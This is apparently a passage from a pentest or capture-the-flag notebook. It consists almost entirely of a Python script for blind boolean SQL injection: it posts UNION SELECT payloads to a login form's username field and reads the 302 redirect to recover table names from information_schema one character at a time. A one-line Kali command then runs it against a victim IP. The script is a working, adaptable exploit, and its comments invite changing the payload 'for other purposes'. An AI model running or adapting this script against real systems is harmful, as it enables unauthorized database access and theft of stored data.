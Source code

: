 ```
import sys
import requests

def sqli(ip):
    symbols = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-/:$^ '
    tmp = ""

    while True:
        for i in symbols:
            post= {"username":f"' UNION SELECT 1,2,3,4 FROM information_schema.tables WHERE table_schema = database() AND table_name LIKE BINARY '{tmp+i}%' -- -","password":"doesntmatter"} #u can change this for other prposes
            req = requests.post(f"http://{ip}/index.php", data=post,allow_redirects=False) #address can also be chnaged 
            status_code=req.status_code
            print(f"{i}", end='\r')
            if status_code == 302:
                tmp += i
                print(tmp)
                break
            elif i == " " :
                print("\n[#] Attack complete:")
                print(f"TABLE_NAME: {tmp}")
                exit()


def main():
    if len(sys.argv) != 2:
        print("(+) Usage: %s <ip>" % sys.argv[0])
        print("(+) Example: %s 192.168.0.1" % sys.argv[0])
        return
    url = sys.argv[1]
    print("(+) Retrieving database..")
    sqli(url)

if __name__ == "__main__":
    main()

```

**Kali**

```
python script.py $VICTIM
```

<figure><img src="../../.gitbook/assets/image (969).png" alt=""><figcaption></figcaption></figure>
